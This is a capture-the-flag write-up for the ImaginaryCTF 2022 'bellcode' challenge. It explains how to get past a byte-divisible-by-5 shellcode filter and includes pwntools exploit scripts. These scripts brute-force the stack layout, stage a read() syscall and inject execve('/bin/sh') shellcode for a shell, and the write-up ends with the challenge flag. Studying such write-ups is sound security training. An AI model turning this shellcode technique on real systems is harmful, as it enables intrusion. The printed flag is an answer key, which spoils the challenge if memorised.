# ImaginaryCTF - 2022

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [bellcode.zip](bellcode.zip)

There will be 1 files in zip:
- bellcode

Download and extract and we can get started!

# 1. Find bug

First, decompiling the binary with ghidra to get the flow. We notice a awful check here:



So let's decompile with ida64 and maybe it will more beautiful:



Nice! So it get shellcode from us and then check all byte of shellcode to be sure that all of them can be divided by 5. And if all of byte of our shellcode can be divided by 5, it will execute our shellcode.

# 2. Idea

To deal with shellcode which has some checks on bytes of shellcode, we will need to know 2 things before writing shellcode. The first thing to know is what instruction we can use, and the second one is what do we have when we have just jumped into our shellcode (registers, stack...).

We will try with all combination from register 16 bit, 32 bit and 64 bit with different instructino such as `mov`, `add`, `xor`, `xchg`, `sub`, `inc`, `dec`, `pop` and `push`.

Here is the function we can use to get valid instruction:

```python
#!/usr/bin/python3

from pwn import *
from binascii import hexlify
import subprocess

def isvalid(ins, shellcode):
    print("Checking: ", ins, end='\r')
    for i in shellcode:
        if (i%5!=0):
            return 0
    print(ins, " --> ", hexlify(shellcode).decode())
    return 1

def FindInstruction():
    regs_16 = ['al', 'bl', 'cl', 'dl', 'di', 'si']
    regs_32 = ['eax', 'ebx', 'ecx', 'edx', 'edi', 'esi']
    regs_64 = ['rax', 'rbx', 'rcx', 'rdx', 'rdi', 'rsi', 'r8', 'r9', 'r10', 'r11', 'r12']
    regs = [regs_16, regs_32, regs_64]

    ins = f'syscall'
    isvalid(ins, asm(ins, arch='amd64'))

    for i in regs:
        for j in i:
            ins = f'mov {j}, 0'
            isvalid(ins, asm(ins, arch='amd64'))
            ins = f'mov {j}, 0xff'
            isvalid(ins, asm(ins, arch='amd64'))
            ins = f'add {j}, 0xff'
            isvalid(ins, asm(ins, arch='amd64'))
            ins = f'sub {j}, 0xff'
            isvalid(ins, asm(ins, arch='amd64'))
            ins = f'dec {j}'
            isvalid(ins, asm(ins, arch='amd64'))
            ins = f'inc {j}'
            isvalid(ins, asm(ins, arch='amd64'))

    for j in regs[2]:
        ins = f'pop {j}'
        isvalid(ins, asm(ins, arch='amd64'))
        ins = f'push {j}'
        isvalid(ins, asm(ins, arch='amd64'))

if args.FINDINS:
    FindInstruction()
    exit()
```

And we can find some useful instruction:



List them in each type of instruction, we have:

```assembly
syscall  -->  0f05

add eax, 0xff  -->  05ff000000

sub eax, 0xff  -->  2dff000000

dec eax  -->  ffc8

inc ebx  -->  ffc3

mov ecx, 0  -->  b900000000
mov esi, 0  -->  be00000000
mov ecx, 0xff  -->  b9ff000000
mov esi, 0xff  -->  beff000000

pop rdx  -->  5a
pop rdi  -->  5f
pop r10  -->  415a

push rax  -->  50
push r8  -->  4150
```

We can see that we can control eax with `add eax, <num>` and if it's too large, we can `dec eax` or `sub eax, <num>`. We can also control rdi, rsi and rdx with `pop rdi`, `mov esi, <num>` and `pop rdx` (with `<num>` is a number can be divided by 5)

Now, let's see what we have in registers and stack when the shellcode is executed.

For a fake shellcode, just type `dddd` when input and this shellcode will be executed. The registers look as following when we has just jumped into shellcode:



We can see `rax: 0` so with a syscall, we will have a `read()`. Now we just want to change rdi into `0` and rsi into some address. The ideal address is shellcode address so let's check if it's writable:



Nice! This address range is writable and our shellcode is at `0xfac300`, `mov esi, 0xfac300` will surely pass the check (you can check if you want). So rax, rdx, rsi is set, we just need to modify rdi and execute syscall to get shellcode freely.

The only option is `pop rdi` to pop value on stack, and that's required bruteforcing because we don't know where is stack null on server. Assume we can execute `read(0, 0xfac300, 0xfac300)`, we can directly modify our shellcode and do whatever we want.

Summary:
- Stage 1: Executing `read(0, 0xfac300, 0xfac300)`
- Stage 2: Modify shellcode

# 3. Exploit

### Stage 1: Executing `read(0, 0xfac300, 0xfac300)`

Our first shellcode to do a read() with bruteforcing rdi can be as following:

```python
payload = asm(
    'mov esi, 0xfac300\n' + 
    'pop rdi\n'*1 +                 # Dunno stack so bruteforce
    'syscall\n'
    , arch='amd64')
p.sendlineafter(b'shellcode?\n', payload)
p.interactive()
```

Debug with gdb with ASLR off to get how many `pop rdi` we need to make rdi to null. This is when we have just jumped into our shellcode:



Analyzing stack and we can get this:



By counting, we know we need 10 `pop rdi` to be able to executing read. Change from 1 to 10 and attach again to check register after 10 `pop rdi`:



So we can execute `read()` now. Let's move on!

### Stage 2: Modify shellcode

Just a simple shellcode to get shell:

```python
shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdx, 29400045130965551
    push 0
    push rdx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch='amd64')
```

But we will need to pad few instructions to land on the next instruction after `syscall` is being executed. The instruction `mov esi, 0xfac300` takes 5 bytes and `syscall` takes 2 bytes, `pop rdi` takes 1 byte so with 10 `pop rdi`, we will need to pad total of 17 bytes. Payload to overwrite shellcode is:

```python
input("Press ENTER to continue...")
p.send(b'A'*17 + shellcode)
```

Attach with gdb and we can see after we press ENTER, our shellcode changed from:



Into:



Continueing execute and we will have shell. Now let's put those code into a for loop to bruteforce `pop rdi`:

```python
for i in range(1, 100):
    p = process(exe.path)
    # p = remote('bellcode.chal.imaginaryctf.org', 1337)
    ######################################################
    ### Stage 1: Executing read(0, 0xfac300, 0xfac300) ###
    ######################################################
    payload = asm(
        'mov esi, 0xfac300\n' + 
        'pop rdi\n'*i +                 # Dunno stack so bruteforce
        'syscall\n'
        , arch='amd64')
    p.sendlineafter(b'shellcode?\n', payload)

    #################################
    ### Stage 2: Modify shellcode ###
    #################################
    shellcode = asm(
        '''
        mov rax, 0x3b
        mov rdx, 29400045130965551
        push 0
        push rdx
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        syscall
        ''', arch='amd64')

    try:
        time.sleep(0.1)
        p.send(b'A'*(7+i) + shellcode)
        p.interactive()
    except:
        pass
```

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `ictf{did_mod_5_ring_a_bell_be00c3fa}`